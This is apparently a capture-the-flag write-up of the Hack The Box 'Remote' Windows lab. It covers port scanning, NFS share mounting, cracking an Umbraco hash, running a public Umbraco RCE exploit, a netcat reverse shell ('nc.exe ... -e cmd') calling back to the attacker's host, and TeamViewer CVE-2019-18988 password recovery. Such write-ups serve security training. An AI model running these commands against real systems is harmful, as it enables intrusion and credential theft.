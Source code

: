 ```yaml
---
title: HTB-Remote
draft: false
tags:
  - htb
  - windows
  - easy
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/Remote.png)

## Information Gathering
## Rustscan

Rustscan finds many ports open. NFS running on port 2049 stands out because it is not normal. 

`rustscan --addresses 10.10.10.180 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-5.png)

## Enumeration
### SMB - TCP 445

Crackmapexec reveals the domain **remote** which we add to `/etc/hosts` file. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-1.png)

Unfortunately, null login is not allowed:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-2.png)

### FTP - TCP 21

Anonymous login is allowed but nothing is in the share:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-3.png)

### NFS - TCP 2049

Using `showmount -e remote`, we can list shares on nfs:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-6.png)

Let's mount the share to our local side:

`sudo mount -t nfs -o vers=3,nolock remote:/site_backups /home/yoon/Documents/htb/remote/nfs`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-7.png)

## Shell as IIS
### NFS Password Retrieval

Inside mounted nfs share, App_Data share looks interesting. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-8.png)

Umbraco.sdf could be read with strings command and it reveals a lot of information:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-10.png)

We can assume user `admin@htb.local` and `smith@htb.local` exists on the website and sha-1 encoded password hash is also shown. 

Let's crack the password hash using hashcat:

`hashcat -m 100 b8be16afba8c314ad33d812f22a04991b90e2aaa ~/Downloads/rockyou.txt --show`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/remote-h.png)

Password was to cracked to be **baconandcheese**. 

We should be able to use this password somewhere else as admin or smith.

### Umbraco RCE

Now let's move on to enumerating HTTP.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-4.png)

Exploring around the website, we discovered login portal for the dashboard:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-9.png)

Using the password cracked earlier as `admin@htb.local`, we can sign in to dashboard:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-11.png)

So the website seems to be running **Umbraco** and doing some researched on it revealed that certain versions are vulnerable to [Authenticated RCE](https://github.com/Jonoans/Umbraco-RCE/tree/master). 

Running the exploit found from [here](https://github.com/Jonoans/Umbraco-RCE/tree/master), we now have a interactive shell:

`python3 umbraco_rce.py -u admin@htb.local -p baconandcheese -w 'http://10.10.10.180/' -i 10.10.14.36`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-12.png)

However, this shell seems to be some what broken. It wouldn't show output to certain commands:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-13.png)

Using smbserver, we will copy nc.exe to the target:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-14.png)

By spawning a second shell inside the first shell, now we have fully interactive shell environment:

`./nc.exe 10.10.14.36 1337 -e cmd`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-15.png)



## Privesc: IIS to Administrator
### TeamViewer

`tasklist` command shows the services running on the system and **TemViewer** stands out:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-16.png)

Inside `Program Files (x86)`, we can access TeamViewer:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-17.png)

It seems to be running as Version7:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-18.png)

### CVE-2019-18988

Through some googling on TeamViewer version 7, we discovered CVE-2019-18988:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-19.png)

Upon uploading and running [this bat file](https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat), we can rerieve SecurityPasswordAES in plain text:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-20.png)

By running the discovered AES value through [this Python script](https://github.com/reversebrain/CVE-2019-18988/blob/master/CVE-2019-18988.py), we can crack the password: **!R3m0te!**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-21.png)

Trying the cracked password as the administrator, it worked:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-22.png)

## References
- https://github.com/Jonoans/Umbraco-RCE/tree/master
- https://github.com/reversebrain/CVE-2019-18988/blob/master/CVE-2019-18988.py
- https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat
